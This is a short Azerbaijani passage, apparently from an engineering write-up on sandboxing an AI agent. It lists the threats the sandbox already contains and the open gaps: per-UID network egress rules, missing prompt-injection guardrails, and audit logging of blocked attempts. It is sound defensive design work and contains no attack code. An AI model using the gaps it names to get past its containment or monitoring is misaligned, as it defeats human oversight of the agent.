Sandbox hazırda həll etməyi bildiyimiz problemləri həll edir: cross-tenant giriş, privilege escalation, secret leak-lər, resource exhaustion. Standart Linux primitive-ləri vasitəsilə, yeni texnologiyaya ehtiyac olmadan.

Hələ üzərində işlədiyimiz problemlər isə daha çətindir. Network egress üçün per-UID firewall rule-ları tələb olunur, bu da iptables konfiqurasiyasına sahib infrastruktur komandası ilə koordinasiya deməkdir. Prompt injection-ın sənayedə production-ready müdafiəsi hələ mövcud deyil. Bu gün edilə biləcək ən doğru şey blast radius-u məhdudlamaqdır (bunu edirik) və heuristik guardrail-lər əlavə etməkdir (bunu hələ etməmişik). Audit logging isə yalnız agentin nə etdiyini deyil, nə etməyə *cəhd edib* bloklandığını da bütün müdafiə qatlarında, nəzərdən keçirilə bilən formatda qeyd etməlidir.

Həmçinin bir meta-problem var: agentə verilən hər yeni alət (web search, fayl konvertasiyası, database girişi) sandbox-un nəzərə almalı olduğu yeni imkanlar dəsti yaradır. Funksionallıq artdıqca hücum səthi də genişlənir.
